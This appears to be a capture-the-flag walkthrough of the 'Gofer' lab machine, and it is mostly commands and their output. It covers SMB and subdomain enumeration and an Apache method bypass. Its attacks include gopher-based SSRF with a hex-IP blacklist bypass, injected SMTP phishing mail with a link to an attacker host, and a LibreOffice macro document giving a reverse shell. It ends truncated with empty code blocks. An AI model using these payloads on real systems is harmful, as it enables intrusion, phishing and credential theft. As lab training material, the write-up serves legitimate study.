

## Enum

```bash
nmap -Pn -sC -sV 10.10.11.225 -oN scans/nmap.initial
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-12 19:24 IST
Stats: 0:00:12 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 75.00% done; ETC: 19:24 (0:00:04 remaining)
Nmap scan report for 10.10.11.225
Host is up (0.033s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT    STATE    SERVICE     VERSION
22/tcp  open     ssh         OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
|   3072 aa:25:82:6e:b8:04:b6:a9:a9:5e:1a:91:f0:94:51:dd (RSA)
|   256 18:21:ba:a7:dc:e4:4f:60:d7:81:03:9a:5d:c2:e5:96 (ECDSA)
|_  256 a4:2d:0d:45:13:2a:9e:7f:86:7a:f6:f7:78:bc:42:d9 (ED25519)
25/tcp  filtered smtp
80/tcp  open     http        Apache httpd 2.4.56
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: Did not follow redirect to http://gofer.htb/
139/tcp open     netbios-ssn Samba smbd 4.6.2
445/tcp open     netbios-ssn Samba smbd 4.6.2
Service Info: Host: gofer.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: GOFER, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2023-08-12T18:24:36
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.25 seconds
```

```bash
smbmap -H 10.10.11.225
[+] IP: 10.10.11.225:445        Name: 10.10.11.225
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        shares                                                  READ ONLY
        IPC$                                                    NO ACCESS       IPC Service (Samba 4.13.13-Debian)
```

```bash
smbclient --no-pass //10.10.11.225/shares
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Fri Oct 28 20:32:08 2022
  ..                                  D        0  Fri Apr 28 12:59:34 2023
  .backup                            DH        0  Thu Apr 27 13:49:32 2023

                5061888 blocks of size 1024. 1798540 blocks available
smb: \> cd .backup
smb: \.backup\> dir
  .                                   D        0  Thu Apr 27 13:49:32 2023
  ..                                  D        0  Fri Oct 28 20:32:08 2022
  mail                                N     1101  Thu Apr 27 13:49:32 2023

                5061888 blocks of size 1024. 1798540 blocks available
smb: \.backup\> get mail
getting file \.backup\mail of size 1101 as mail (8.3 KiloBytes/sec) (average 8.3 KiloBytes/sec)
smb: \.backup\> exit
```

```bash
cat mail
From jdavis@gofer.htb  Fri Oct 28 20:29:30 2022
Return-Path: <jdavis@gofer.htb>
X-Original-To: tbuckley@gofer.htb
Delivered-To: tbuckley@gofer.htb
Received: from gofer.htb (localhost [127.0.0.1])
        by gofer.htb (Postfix) with SMTP id C8F7461827
        for <tbuckley@gofer.htb>; Fri, 28 Oct 2022 20:28:43 +0100 (BST)
Subject:Important to read!
Message-Id: <20221028192857.C8F7461827@gofer.htb>
Date: Fri, 28 Oct 2022 20:28:43 +0100 (BST)
From: jdavis@gofer.htb

Hello guys,

Our dear Jocelyn received another phishing attempt last week and his habit of clicking on links without paying much attention may be problematic one day. That's why from now on, I've decided that important documents will only be sent internally, by mail, which should greatly limit the risks. If possible, use an .odt format, as documents saved in Office Word are not always well interpreted by Libreoffice.

PS: Last thing for Tom; I know you're working on our web proxy but if you could restrict access, it will be more secure until you have finished it. It seems to me that it should be possible to do so via <Limit>
```

Found this `proxy` subdomain
```bash
ffuf \
  -c \
  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt \
  -u "http://gofer.htb" \
  -H "Host: FUZZ.gofer.htb" -mc all -fw 20

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://gofer.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.gofer.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response words: 20
________________________________________________

[Status: 401, Size: 462, Words: 42, Lines: 15, Duration: 54ms]
    * FUZZ: proxy

[WARN] Caught keyboard interrupt (Ctrl-C)
```

This has a login page, trying to fuzz further, nothing returns on GET
```bash
ffuf \
  -c \
  -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt \
  -u "http://proxy.gofer.htb/FUZZ" \
  -mc all -fs 462,280 -c -v

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://proxy.gofer.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response size: 462,280
________________________________________________

:: Progress: [17129/17129] :: Job [1/1] :: 888 req/sec :: Duration: [0:00:28] :: Errors: 0 ::
```

But we get a 200 on POST
```bash
ffuf \
  -c \
  -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt \
  -u "http://proxy.gofer.htb/FUZZ" \
  -X POST -mc all -fs 277,280 -c -v

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.0.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://proxy.gofer.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response size: 277,280
________________________________________________

[Status: 200, Size: 81, Words: 9, Lines: 2, Duration: 46ms]
| URL | http://proxy.gofer.htb/index.php
    * FUZZ: index.php

[Status: 401, Size: 462, Words: 42, Lines: 15, Duration: 31ms]
| URL | http://proxy.gofer.htb/.
    * FUZZ: .

[WARN] Caught keyboard interrupt (Ctrl-C)
```

Looking at it closer
```bash
curl -XPOST http://proxy.gofer.htb/index.php
<!-- Welcome to Gofer proxy -->
<html><body>Missing URL parameter !</body></html>
```

So we got some SSRF
```bash
curl -XPOST http://proxy.gofer.htb/index.php?url=http://10.10.14.218:9090/index.html
<!-- Welcome to Gofer proxy -->
<h1>zoinkers</h1>
1
```

Looks like any method works as long as it's not GET
```bash
curl -XPUT http://proxy.gofer.htb/index.php?url=http://10.10.14.218:9090/index.html
<!-- Welcome to Gofer proxy -->
<h1>zoinkers</h1>
1
```

Even invalid methods
```bash
curl -XMEH http://proxy.gofer.htb/index.php?url=http://10.10.14.218:9090/index.html
<!-- Welcome to Gofer proxy -->
<h1>zoinkers</h1>
1
```

Found [this](https://infosecwriteups.com/how-gopher-works-in-escalating-ssrfs-ce6e5459b630) article about leveraging the `gopher` protocol in weaponizing `SSRF`, apparently that's quite useful, as we can send cariage return and stuff, so that gives us a lot of controll over the payloads we can funnel through.  
  
```bash
curl -XMEH 'http://proxy.gofer.htb/index.php?url=gopher://10.10.14.218:9090/_TEST%250Azoinks%250Azoinkers%250Azoinkis%250Azoinkamus%250Azoinkera'
```
```bash
nc -lknp 9090
TEST
zoinks
zoinkers
zoinkis
zoinkamus
zoinkera
```

Circling back the email we got from the samba share, we know the following:
```
- Jocelyn really likes to click on stuff
- From now on important documents will only be sent internally, by mail 
- Preferably in odt format because they use LibreOffice
- Tom is working on an unfinished Proxy, for which the access is restricted via <Limit>
```

The proxy thing is running on Apache
```bash
curl -I http://proxy.gofer.htb/
HTTP/1.1 401 Unauthorized
Date: Sun, 13 Aug 2023 17:56:10 GMT
Server: Apache/2.4.56 (Debian)
WWW-Authenticate: Basic realm="Restricted Content"
Content-Type: text/html; charset=iso-8859-1
```

So some quick google dorking and we find the following, [which](https://httpd.apache.org/docs/2.4/mod/core.html#limit) would explain why we can access the index.php thing with any method except GET.  

So if important document will on be sent internally by mail, and we have this SSRF where we can leverage gopher, we can send SMTP payloads through it, which will technically come from the internal network. All that's left to do is to fin and send her a `bad.odt`

[Here](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery#gopher)'s an example of how to send an SMTP payload through a gopher SSRF. let's just adapt it a little to work on our own machine. Note that of course it's easy to infer the mail address for Jocelyn since we know her familly name from the homepage.  

Bouncing a test payload back to my own machine:
```bash
curl -XMEH 'http://proxy.gofer.htb/index.php?url=gopher://10.10.14.218:25/_HELO%252010%252E10%252E14%252E218%250D%250AMAIL%2520FROM%253A%253Cdnedry%2540gopher%252Ehtb%253E%250D%250ARCPT%2520TO%253A%253Cjhudson%2540gopher%252Ehtb%253E%250D%250ADATA%250D%250AFrom%253A%2520%255BDennis%2520Nedry%255D%2520%253Cdnedry%2540gopher%252Ehtb%253E%250D%250ATo%253A%2520%253Cjhudson%2540gopher%252Ehtb%253E%250D%250ADate%253A%2520Sun%252C%252013%2520Aug%25202023%252018%253A20%253A26%2520%252D0400%250D%250ASubject%253A%2520AH%2520AH%2520AH%250D%250A%250D%250AYou%2520didn%2527t%2520say%2520the%2520magic%2520word%2520%2521%250D%250A%250D%250A%250D%250A%252E%250D%250AQUIT%250D'
```
Looks good
```bash
nc -lknp 25
HELO 10.10.14.218
MAIL FROM:<dnedry@gopher.htb>
RCPT TO:<jhudson@gopher.htb>
DATA
From: [Dennis Nedry] <dnedry@gopher.htb>
To: <jhudson@gopher.htb>
Date: Sun, 13 Aug 2023 18:20:26 -0400
Subject: AH AH AH

You didn't say the magic word !


.
QUIT
```
Improving that just a little bit and put a clickable link in the email to satisfy jocelyn's urges
```bash
curl -XMEH 'http://proxy.gofer.htb/index.php?url=gopher://10.10.14.218:25/_HELO%252010%252E10%252E14%252E218%250D%250AMAIL%2520FROM%253A%253Cdnedry%2540gopher%252Ehtb%253E%250D%250ARCPT%2520TO%253A%253Cjhudson%2540gopher%252Ehtb%253E%250D%250ADATA%250D%250AFrom%253A%2520%255BDennis%2520Nedry%255D%2520%253Cdnedry%2540gopher%252Ehtb%253E%250D%250ATo%253A%2520%253Cjhudson%2540gopher%252Ehtb%253E%250D%250ADate%253A%2520Sun%252C%252013%2520Aug%25202023%252018%253A20%253A26%2520%252D0400%250D%250ASubject%253A%2520AH%2520AH%2520AH%250D%250A%250D%250A%253Ca%2520href%253D%2522http%253A%252F%252F10%252E10%252E14%252E218%253A9090%252Findex%252Ehtml%2522%253Epliz%2520coulick%253C%252Fa%253E%250D%250A%250D%250A%250D%250A%252E%250D%250AQUIT%250D'
```

That would look like this:
```bash
nc -lknp 25
HELO 10.10.14.218
MAIL FROM:<dnedry@gopher.htb>
RCPT TO:<jhudson@gopher.htb>
DATA
From: [Dennis Nedry] <dnedry@gopher.htb>
To: <jhudson@gopher.htb>
Date: Sun, 13 Aug 2023 18:20:26 -0400
Subject: AH AH AH

<a href="http://10.10.14.218:9090/index.html">pliz coulick</a>


.
QUIT
```

And we'd get a callback on that paload
```bash
updog
[+] Serving /home/blnkn/www...
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:9090
 * Running on http://192.168.0.203:9090
Press CTRL+C to quit
10.10.14.218 - - [13/Aug/2023 19:27:46] "GET /index.html HTTP/1.1" 200 -
```

Cool, so we just gotta do that for real now, but we know that 127 is not allowed
```bash
curl -XMEH 'http://proxy.gofer.htb/index.php?url=gopher://127.0.0.1:25'
<!-- Welcome to Gofer proxy -->
<html><body>Blacklisted keyword: /127 !</body></html>
```
[https://ma.ttias.be/theres-more-than-one-way-to-write-an-ip-address/](https://ma.ttias.be/theres-more-than-one-way-to-write-an-ip-address/)  
This article shows a few alternative ways to write an IP address, the one we'll use is the `Hexadecimal IP notation`
```bash
ping 0x7f000001
PING 0x7f000001 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.074 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.116 ms
^C
--- 0x7f000001 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1009ms
rtt min/avg/max/mdev = 0.074/0.095/0.116/0.021 ms
```

Trying for real for the first time
```bash
curl -XMEH 'http://proxy.gofer.htb/index.php?url=gopher://0x7f000001:25/_HELO%25200x7f000001%250D%250AMAIL%2520FROM%253A%253Cdnedry%2540gopher%252Ehtb%253E%250D%250ARCPT%2520TO%253A%253Cjhudson%2540gopher%252Ehtb%253E%250D%250ADATA%250D%250AFrom%253A%2520%255BDennis%2520Nedry%255D%2520%253Cdnedry%2540gopher%252Ehtb%253E%250D%250ATo%253A%2520%253Cjhudson%2540gopher%252Ehtb%253E%250D%250ADate%253A%2520Sun%252C%252013%2520Aug%25202023%252018%253A20%253A26%2520%252D0400%250D%250ASubject%253A%2520AH%2520AH%2520AH%250D%250A%250D%250A%253Ca%2520href%253D%2522http%253A%252F%252F10%252E10%252E14%252E218%253A9090%252Findex%252Ehtml%2522%253Epliz%2520coulick%253C%252Fa%253E%250D%250A%250D%250A%250D%250A%252E%250D%250AQUIT%250D'
<!-- Welcome to Gofer proxy -->
220 gofer.htb ESMTP Postfix (Debian/GNU)
250 gofer.htb
250 2.1.0 Ok
550 5.1.1 <jhudson@gopher.htb>: Recipient address rejected: 127.0.0.1
554 5.5.1 Error: no valid recipients
221 2.7.0 Error: I can break rules, too. Goodbye.
1
```

Ah interesting we even get back the errors straight from postfix, so maybe we can just use the actual address of the server? Ah, no same error... Arf the domain is `gofer.htb` on `gopher.htb`, nevermind
```bash
curl -XMEH 'http://proxy.gofer.htb/index.php?url=gopher://0x7f000001:25/_HELO%252010%252E10%252E11%252E225%250D%250AMAIL%2520FROM%253A%253Cdnedry%2540gofer%252Ehtb%253E%250D%250ARCPT%2520TO%253A%253Cjhudson%2540gofer%252Ehtb%253E%250D%250ADATA%250D%250AFrom%253A%2520%255BDennis%2520Nedry%255D%2520%253Cdnedry%2540gofer%252Ehtb%253E%250D%250ATo%253A%2520%253Cjhudson%2540gofer%252Ehtb%253E%250D%250ADate%253A%2520Sun%252C%252013%2520Aug%25202023%252018%253A20%253A26%2520%252D0400%250D%250ASubject%253A%2520AH%2520AH%2520AH%250D%250A%250D%250A%253Ca%2520href%253D%2522http%253A%252F%252F10%252E10%252E14%252E218%253A9090%252Findex%252Ehtml%2522%253Epliz%2520coulick%253C%252Fa%253E%250D%250A%250D%250A%250D%250A%252E%250D%250AQUIT%250D'
<!-- Welcome to Gofer proxy -->
220 gofer.htb ESMTP Postfix (Debian/GNU)
250 gofer.htb
250 2.1.0 Ok
250 2.1.5 Ok
354 End data with <CR><LF>.<CR><LF>
250 2.0.0 Ok: queued as CEBD5816D
221 2.0.0 Bye
1
```

And yes we get a callback from Jocelyn on 225
```bash
updog
[+] Serving /home/blnkn/www...
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:9090
 * Running on http://192.168.0.203:9090
Press CTRL+C to quit
10.10.11.225 - - [13/Aug/2023 19:51:00] "GET /index.html%22 HTTP/1.1" 302 -
10.10.11.225 - - [13/Aug/2023 19:51:00] "GET / HTTP/1.1" 200 -
```

Note that the quotes on our href has only been urldecoded once ...not sure exactly what happened there, tried to fix it with single quotes
```bash
curl -XMEH 'http://proxy.gofer.htb/index.php?url=gopher://0x7f000001:25/_HELO%252010%252E10%252E11%252E225%250D%250AMAIL%2520FROM%253A%253Cdnedry%2540gofer%252Ehtb%253E%250D%250ARCPT%2520TO%253A%253Cjhudson%2540gofer%252Ehtb%253E%250D%250ADATA%250D%250AFrom%253A%2520%255BDennis%2520Nedry%255D%2520%253Cdnedry%2540gofer%252Ehtb%253E%250D%250ATo%253A%2520%253Cjhudson%2540gofer%252Ehtb%253E%250D%250ADate%253A%2520Sun%252C%252013%2520Aug%25202023%252018%253A20%253A26%2520%252D0400%250D%250ASubject%253A%2520AH%2520AH%2520AH%250D%250A%250D%250A%253Ca%2520href%253D%2527http%253A%252F%252F10%252E10%252E14%252E218%253A9090%252Findex%252Ehtml%2527%253Epliz%2520coulick%253C%252Fa%253E%250D%250A%250D%250A%250D%250A%252E%250D%250AQUIT%250D'
<!-- Welcome to Gofer proxy -->
220 gofer.htb ESMTP Postfix (Debian/GNU)
250 gofer.htb
250 2.1.0 Ok
250 2.1.5 Ok
354 End data with <CR><LF>.<CR><LF>
250 2.0.0 Ok: queued as B9C72816D
221 2.0.0 Bye
1
```

Same but different
```bash
updog
[+] Serving /home/blnkn/www...
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:9090
 * Running on http://192.168.0.203:9090
Press CTRL+C to quit
10.10.11.225 - - [13/Aug/2023 19:58:59] "GET /index.html%22 HTTP/1.1" 302 -
10.10.11.225 - - [13/Aug/2023 19:59:00] "GET / HTTP/1.1" 200 -
10.10.11.225 - - [13/Aug/2023 20:04:00] "GET /index.html' HTTP/1.1" 302 -
10.10.11.225 - - [13/Aug/2023 20:04:00] "GET / HTTP/1.1" 200 -
```

Googling around, I found that quotes in html tags are not actually a requirement, and could confirm on my own machine that a simple href tag without the quotes works just fine. So let's try that.

```bash
curl -XMEH 'http://proxy.gofer.htb/index.php?url=gopher://0x7f000001:25/_HELO%252010%252E10%252E11%252E225%250D%250AMAIL%2520FROM%253A%253Cdnedry%2540gofer%252Ehtb%253E%250D%250ARCPT%2520TO%253A%253Cjhudson%2540gofer%252Ehtb%253E%250D%250ADATA%250D%250AFrom%253A%2520%255BDennis%2520Nedry%255D%2520%253Cdnedry%2540gofer%252Ehtb%253E%250D%250ATo%253A%2520%253Cjhudson%2540gofer%252Ehtb%253E%250D%250ADate%253A%2520Sun%252C%252013%2520Aug%25202023%252018%253A20%253A26%2520%252D0400%250D%250ASubject%253A%2520AH%2520AH%2520AH%250D%250A%250D%250A%253Ca%2520href%253Dhttp%253A%252F%252F10%252E10%252E14%252E218%253A9090%252Findex%252Ehtml%253Epliz%2520coulick%253C%252Fa%253E%250D%250A%250D%250A%250D%250A%252E%250D%250AQUIT%250D'
<!-- Welcome to Gofer proxy -->
220 gofer.htb ESMTP Postfix (Debian/GNU)
250 gofer.htb
250 2.1.0 Ok
250 2.1.5 Ok
354 End data with <CR><LF>.<CR><LF>
250 2.0.0 Ok: queued as E9B76816D
221 2.0.0 Bye
1
```

Ok that's a 200, nice.
```bash
updog
[+] Serving /home/blnkn/www...
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:9090
 * Running on http://192.168.0.203:9090
Press CTRL+C to quit
10.10.11.225 - - [13/Aug/2023 20:14:00] "GET /index.html HTTP/1.1" 200 -
```

Ok so Jocelyn is reading our emails and clicking on our links, so I guess, what's left to do now is the `bad.odt`

Trying the msf module my payload gets downloaded, but I don't get a meterpreter callback
```bash
msf6 > use exploit/multi/fileformat/libreoffice_macro_exec
msf6 exploit(multi/fileformat/libreoffice_macro_exec) > set TARGET Linux
msf6 exploit(multi/fileformat/libreoffice_macro_exec) > set payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/fileformat/libreoffice_macro_exec) > set LHOST tun0
msf6 exploit(multi/fileformat/libreoffice_macro_exec) > exploit
```

Created the macro and assigned to open document:  
  
  

```bash
rlwrap nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.10.14.218] from (UNKNOWN) [10.10.11.225] 60868
id
uid=1000(jhudson) gid=1000(jhudson) groups=1000(jhudson),108(netdev)
```

```bash
grep sh$ /etc/passwd
root:x:0:0:root:/root:/bin/bash
jhudson:x:1000:1000:Jocelyn Hudson,,,:/home/jhudson:/bin/bash
jdavis:x:1001:1001::/home/jdavis:/bin/bash
tbuckley:x:1002:1002::/home/tbuckley:/bin/bash
ablake:x:1003:1003::/home/ablake:/bin/bash
```

Quickly dropped an `authorized_key` file to get a proper shell  
```bash
jhudson@gofer:~$ find / -group netdev 2>/dev/null
/dev/rfkill
```

```bash
jhudson@gofer:/dev$ find / -iname "*rfkill*" 2>/dev/null
/dev/rfkill
/var/lib/systemd/rfkill
/sys/class/misc/rfkill
/sys/class/rfkill
/sys/devices/virtual/misc/rfkill
/sys/module/rfkill
/usr/lib/systemd/system/systemd-rfkill.service
/usr/lib/systemd/system/systemd-rfkill.socket
/usr/lib/systemd/systemd-rfkill
/usr/lib/modules/5.10.0-23-amd64/kernel/net/rfkill
/usr/lib/modules/5.10.0-23-amd64/kernel/net/rfkill/rfkill.ko
/usr/lib/modules/5.10.0-23-amd64/kernel/drivers/platform/x86/amilo-rfkill.ko
/usr/include/linux/rfkill.h
/usr/share/bash-completion/completions/_rfkill
/usr/share/man/man8/systemd-rfkill.socket.8.gz
/usr/share/man/man8/systemd-rfkill.service.8.gz
/usr/share/man/man8/systemd-rfkill.8.gz
```
```
SYSTEMD-RFKILL.SERVICE(8)                                                                systemd-rfkill.service                                                               SYSTEMD-RFKILL.SERVICE(8)

NAME
       systemd-rfkill.service, systemd-rfkill.socket, systemd-rfkill - Load and save the RF kill switch state at boot and change

SYNOPSIS
       systemd-rfkill.service

       systemd-rfkill.socket

       /lib/systemd/systemd-rfkill

DESCRIPTION
       systemd-rfkill.service is a service that restores the RF kill switch state at early boot and saves it on each change. On disk, the RF kill switch state is stored in /var/lib/systemd/rfkill/.

KERNEL COMMAND LINE
       systemd-rfkill understands the following kernel command line parameter:

       systemd.restore_state=
           Takes a boolean argument. Defaults to "1". If "0", does not restore the rfkill settings on boot. However, settings will still be stored on shutdown.

SEE ALSO
       systemd(1)

systemd 247                                                                                                                                                                   SYSTEMD-RFKILL.SERVICE(8)
```

[https://linuxconfig.org/how-to-manage-wifi-interfaces-with-rfkill-command-on-linux](https://linuxconfig.org/how-to-manage-wifi-interfaces-with-rfkill-command-on-linux)  

```bash
jhudson@gofer:/sys/devices/virtual/misc$ grep sh$ /etc/passwd
root:x:0:0:root:/root:/bin/bash
jhudson:x:1000:1000:Jocelyn Hudson,,,:/home/jhudson:/bin/bash
jdavis:x:1001:1001::/home/jdavis:/bin/bash
tbuckley:x:1002:1002::/home/tbuckley:/bin/bash
ablake:x:1003:1003::/home/ablake:/bin/bash

jhudson@gofer:/sys/devices/virtual/misc$ id jhudson
uid=1000(jhudson) gid=1000(jhudson) groups=1000(jhudson),108(netdev)

jhudson@gofer:/sys/devices/virtual/misc$ id jdavis
uid=1001(jdavis) gid=1001(jdavis) groups=1001(jdavis)

jhudson@gofer:/sys/devices/virtual/misc$ id tbuckley
uid=1002(tbuckley) gid=1002(tbuckley) groups=1002(tbuckley),1004(dev)

jhudson@gofer:/sys/devices/virtual/misc$ id ablake
uid=1003(ablake) gid=1003(ablake) groups=1003(ablake)
```

```bash
jhudson@gofer:/usr/local/bin$ file notes
notes: setuid, setgid regular file, no read permission
jhudson@gofer:/usr/local/bin$ ls -la notes
-rwsr-s--- 1 root dev 17168 Apr 28 16:06 notes
```

```bash
jhudson@gofer:/usr/local/bin$ find / -user tbuckley 2>/dev/null
/home/tbuckley
/home/tbuckley/.bashrc
/home/tbuckley/.bash_logout
/home/tbuckley/.local
/home/tbuckley/.local/share
/home/tbuckley/.profile
/home/tbuckley/.vimrc
```

So just as we get to the conclusion that it would be nice to be tbuckley to check that out, we run pspy64 and find this:  
```
2023/08/13 21:54:01 CMD: UID=0    PID=80470  | /usr/bin/curl http://proxy.gofer.htb/?url=http://gofer.htb --user tbuckley:ooP4****************
```

```bash
tbuckley@gofer:~$ file /usr/local/bin/notes
/usr/local/bin/notes: setuid, setgid ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=6a9c0faa06eabfa48a864bb7341f29deecd7e9e3, for GNU/Linux 3.2.0, not stripped
```

Moving the bin to my machine to decompile it with Ghidra.
```bash
```

```bash
```

```bash
```


